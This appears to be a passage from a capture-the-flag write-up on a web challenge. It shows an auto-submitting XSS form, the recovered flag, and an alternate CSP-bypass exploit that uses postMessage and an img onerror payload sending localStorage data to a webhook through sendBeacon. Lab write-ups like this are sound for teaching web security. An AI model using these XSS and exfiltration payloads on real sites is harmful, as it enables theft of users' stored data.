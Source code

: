 ```html
            let pass = document.createElement("input");
            pass.type = "text";
            pass.name = "pass";
            pass.value = "12345"; 
            form.appendChild(pass);

            document.body.appendChild(form);

            window.open('', 'target');
            form.submit();
        </script>
    </body>
</html>
```

On viewing this page, a form is created with our malicious XSS in the user, and they are forced to open it in a new tab. The script exfiltrates `window.frames[0].document.body.innerText`, which should give us the flag!

![](https://i.imgur.com/aC0CZlb.png)

> rarctf{js_god?_the_wh0le_1nternet_1s_y0ur_d0main!!!_60739238}

That was the intended solution, but there was another unintended one - a CSP bypass. One player had a different solution, which I cleaned it up to this:

```javascript
window.addEventListener("load", () => {
    let storage = document.getElementById("secure_storage");
    storage.contentWindow.postMessage(
        [
            "document.body.innerHTML",
            "<div id=user></div><div id=message></div><div id=site>https://securestorage.rars.win</div><iframe id=frame src='https://secureenclave.rars.win/assets/LICENSE.txt'></iframe>"
        ]
        , "*"
    );
    setTimeout(() => {
        storage.contentWindow.postMessage(
            [
                "frame.contentWindow.document.body.innerHTML",
                "<img src=x onerror='navigator.sendBeacon(webhook, localStorage.message)' />"
            ]
            , "*"
        );
    }, 1500);
})
```

This works by bypassing the CSP on the enclave domain by iframing another URL (in this case, `/assets/LICENSE.txt`) which doesn't have a CSP. The innerHTML of the main page is first set to the HTML tags required for the script to keep working, as well as an iframe to this random file. Then, the innerHTML of this iframe file is set to have an XSS tag, which runs since this random file doesn't contain a CSP. This gives us arbitrary JS execution on the enclave, allowing us to exfiltrate the flag.
